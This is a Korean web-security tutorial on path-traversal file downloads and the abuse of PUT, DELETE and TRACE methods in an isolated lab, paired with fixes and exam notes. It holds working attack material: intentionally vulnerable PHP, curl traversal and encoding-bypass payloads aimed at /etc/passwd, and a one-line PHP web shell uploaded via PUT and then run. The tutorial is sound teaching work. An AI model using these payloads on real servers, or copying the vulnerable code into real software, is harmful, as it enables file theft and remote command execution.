

## 들어가며 — 서버 파일을 읽고, 쓰고, 지운다

[10 파일 업로드](/posts/websec-10-file-upload/)가 **악성 파일을 올리는** 공격이었다면, 이 글은 그 반대·확장입니다.

- **파일 다운로드(경로 조작)**: 허용된 경로 밖의 **임의 파일을 읽어** 내려받음 (`../../etc/passwd`)
- **불필요한 HTTP Method**: `PUT`으로 **파일을 쓰고**, `DELETE`로 **지우며**, `TRACE`로 쿠키를 탈취(XST)

둘 다 "허용되지 않은 파일 접근·조작"이라는 한 뿌리이며, 점검 도구도 **Burp·curl·nmap**으로 같습니다.

> [09 파일 인클루전](/posts/websec-09-file-inclusion/)의 경로 조작(LFI)과 헷갈리기 쉽습니다. 차이는 **결과**입니다 — 인클루전은 파일을 *실행/포함*(RCE 가능), 다운로드는 파일을 *내려받기*(정보 노출). 점검 페이로드(`../`)는 비슷하지만 별개 항목입니다.
{: .prompt-info }

---

## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.56.10) — curl, Burp Suite, nmap |
| 대상 | Ubuntu + Apache/PHP (192.168.56.30) |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | 파일 다운로드 **A01 Broken Access Control**(경로 조작) · HTTP Method **A02 Security Misconfiguration** |
| CWE | CWE-22(경로 조작) · CWE-650(불필요 HTTP Method) · CWE-693(XST) |
| 영향 | `/etc/passwd`·SAM 등 시스템 파일 노출, WebDAV로 웹쉘 업로드(RCE)·임의 삭제, TRACE로 세션 탈취 |
| 한 줄 핵심 | 입력 경로 검증·메소드 제한이 없어 **서버 파일을 임의로 읽기/쓰기/삭제** |

---

## 1. 파일 다운로드 (경로 조작)

### 1.1 원리

다운로드 기능이 `download?file=manual.pdf`처럼 **파일명을 파라미터로 받아 그대로 경로에 붙이면**, 공격자가 `../`로 상위 디렉터리를 거슬러 올라가 임의 파일을 받습니다.

### 1.2 실습 환경 구성

취약 다운로드(`/var/www/html/download.php`):

```php
<?php
// [의도적 취약] 입력 파일명을 검증 없이 경로에 결합
$file = $_GET['file'] ?? '';
$path = "/var/www/html/uploads/" . $file;
header('Content-Disposition: attachment; filename="'.basename($file).'"');
readfile($path);          // ← ../ 로 상위 경로 접근 가능
?>
```

```bash
sudo mkdir -p /var/www/html/uploads
echo "manual" | sudo tee /var/www/html/uploads/manual_02.pdf >/dev/null
```

### 1.3 점검 (KISA Step 1~3)

```bash
# Step 1) 정상 다운로드 — 파라미터에 파일명/경로 노출 확인
curl -s "http://192.168.56.30/download.php?file=manual_02.pdf"

# Step 2) 상대경로(../)로 시스템 파일 접근
curl -s "http://192.168.56.30/download.php?file=../../../../../../etc/passwd"
# → root:x:0:0:... 이 나오면 취약

# Step 3) Step 2가 막히면 인코딩/치환/종단문자로 우회
curl -s "http://192.168.56.30/download.php?file=%2e%2e%2f%2e%2e%2fetc%2fpasswd"   # URL 인코딩
curl -s "http://192.168.56.30/download.php?file=....//....//etc/passwd"          # 특수문자 중첩
```

**우회 기법 정리**

| 방식 | 예시 |
|---|---|
| URL 인코딩 | `%2e`(.) `%2f`(/) `%5c`(\\) |
| 더블 URL 인코딩 | `%252e` `%252f` `%255c` |
| 특수문자 중첩 | `....//` → `../` |
| 종단 문자 추가 | `[파일]%00.jpg`, `[파일]%0a.jpg` |
| 대소문자/혼합 | `EtC/PaSswD`, `e%74c%2Fpa%73%73wd` |

**중요 시스템 파일(참고)**

| OS | 파일 |
|---|---|
| Linux | `/etc/passwd` · `/etc/group` · `/etc/hosts` · `~/.bash_history` |
| Windows | `C:\Windows\System32\config\SAM` · `...\drivers\etc\hosts` |

### 1.4 조치

1. 파일명을 **DB에 저장**하고 다운로드 시 요청값과 비교 검증, URL엔 **파일 ID/토큰**만 노출
2. 다운로드 가능 디렉터리를 한정하고 **정규화 후 경로 검증**
3. 확장자 화이트리스트 + 경로 특수문자(`. / \ %`) 필터링

```php
// 안전: 파일명만 추출 + 허용 디렉터리 밖 차단
$file = basename($_GET['file'] ?? '');                 // 경로 제거
$base = realpath('/var/www/html/uploads');
$path = realpath($base . '/' . $file);
if ($path === false || strpos($path, $base) !== 0) {
    http_response_code(400); exit('잘못된 요청');
}
if (!preg_match('/^[a-zA-Z0-9._-]+\.(pdf|jpg|png)$/', $file)) {
    http_response_code(400); exit('허용되지 않은 파일');
}
readfile($path);
```

---

## 2. 불필요한 HTTP Method 악용

### 2.1 원리

HTTP에는 `GET/POST` 외에 `PUT`(파일 생성)·`DELETE`(삭제)·`TRACE`(요청 반향)·`CONNECT` 등이 있습니다. 서버가 이들을 **불필요하게 활성화**하면:

- **PUT** → 서버에 **웹쉘 업로드**(RCE)
- **DELETE** → 임의 파일 **삭제**
- **TRACE** → **XST(Cross-Site Tracing)** 로 `HttpOnly` 쿠키까지 탈취

### 2.2 점검 — 허용 메소드 확인

```bash
# 허용 메소드 나열
curl -i -X OPTIONS http://192.168.56.30/ | grep -i allow
nmap --script http-methods --script-args http-methods.test-all=true -p 80 192.168.56.30
```

`Allow: GET, POST, PUT, DELETE, TRACE` 처럼 위험 메소드가 보이면 점검 대상입니다.

### 2.3 실습 — WebDAV가 켜진 경우 (의도적 취약 재현)

```bash
sudo a2enmod dav dav_fs
sudo mkdir -p /var/www/html/webdav && sudo chown www-data:www-data /var/www/html/webdav
sudo tee /etc/apache2/conf-available/webdav-lab.conf >/dev/null <<'EOF'
<Directory "/var/www/html/webdav">
    Dav On
</Directory>
EOF
sudo a2enconf webdav-lab && sudo systemctl restart apache2
```

```bash
# Step 1) PUT 으로 웹쉘 생성 → 201 Created 면 취약
curl -i -X PUT http://192.168.56.30/webdav/shell.php \
  --data '<?php system($_GET["cmd"]); ?>'

# Step 2) 업로드한 웹쉘로 명령 실행
curl "http://192.168.56.30/webdav/shell.php?cmd=id"

# Step 3) DELETE 로 임의 파일 삭제 → 204 No Content 면 취약
curl -i -X DELETE http://192.168.56.30/webdav/shell.php
```

```bash
# TRACE 활성 여부 (XST) — 200 + 요청 반향이면 취약
curl -i -X TRACE http://192.168.56.30/
```

### 2.4 조치 (서버별)

| 서버 | 설정 |
|---|---|
| **Apache** | WebDAV 끄기 `sudo a2dismod dav dav_fs` / TRACE `TraceEnable Off` / CONNECT는 mod_rewrite로 `[F]` 차단 |
| **Nginx** | `dav_methods` 지시어 제거, TRACE는 0.5.17+ 기본 405 |
| **Tomcat** | WebDAV 서블릿 `readonly=true`, `<Connector allowTrace>` 제거 |
| **IIS 6+** | WebDAV 기본 비활성, 요청 필터링 → HTTP 동사에 `TRACE` 거부 |

```apache
# Apache: 위험 메소드 제한 예시
TraceEnable Off
<Location "/">
    <LimitExcept GET POST HEAD>
        Require all denied
    </LimitExcept>
</Location>
```

---

## 3. 정리



| 공격 | 진단 | 핵심 조치 |
|---|---|---|
| 파일 다운로드 | `file=../../../../etc/passwd` | 파일명 화이트리스트 + `realpath` 경로 검증 |
| PUT 업로드 | `PUT shell.php` → 201 | WebDAV 비활성화 |
| TRACE(XST) | `TRACE /` → 요청 반향 | `TraceEnable Off` |

---

## 4. 정보보안기사 시험 포인트

| 항목 | 꼭 외울 것 |
|---|---|
| **경로 조작** | `../`(상위 이동)·`%2e%2e%2f`(인코딩)·`....//`(중첩)·`%00`(종단) |
| **다운로드 조치** | 파일명을 직접 받지 말고 **ID/토큰** + 경로 정규화 검증 |
| **위험 메소드** | PUT(쓰기)·DELETE(삭제)·TRACE(XST)·CONNECT(프록시) |
| **XST** | TRACE 악용으로 `HttpOnly` 쿠키 탈취 → **TRACE 비활성화** |

> **★ 함정**: "XST 방어 = HttpOnly 설정"은 **틀림**. HttpOnly를 우회하는 공격이 XST이므로 정답은 **TRACE 메소드 비활성화**입니다.
{: .prompt-tip }

---

## 출처 및 참고 자료

- KISA, 「주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드」 — Web Application(웹) > 파일 다운로드·불필요한 Method 악용
- OWASP — Path Traversal / Test HTTP Methods — <https://owasp.org/www-community/attacks/Path_Traversal>

> **⚠ 합법성**: 모든 실습은 본인 소유의 격리된 랩에서만 수행하고, 실습 후 생성한 웹쉘·WebDAV 설정은 반드시 제거합니다.
{: .prompt-danger }
